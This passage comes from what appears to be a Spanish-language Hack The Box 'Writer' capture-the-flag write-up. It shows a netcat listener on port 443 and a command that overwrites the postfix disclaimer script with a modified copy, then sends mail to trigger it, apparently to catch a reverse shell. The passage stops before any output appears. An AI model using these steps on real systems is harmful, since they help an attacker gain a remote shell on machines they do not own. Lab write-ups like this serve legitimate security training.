 <img src="/assets/images/htb-writeup-writer/disclaimer2.png">
</p>

Nuevamente nos ponemos en escucha con ```netcat``` en nuestra máquina

```bash
~$> nc -nlvp 443
```
Hacemos una copia del disclaimer que modificamos, en la ruta original al tiempo que ejecutamos el script de python para enviar el mail

```bash
kyle@writer:~$ cp disclaimer /etc/postfix/disclaimer; python3 mail.py
```
Y si vemos nuetro listener

<p align="center">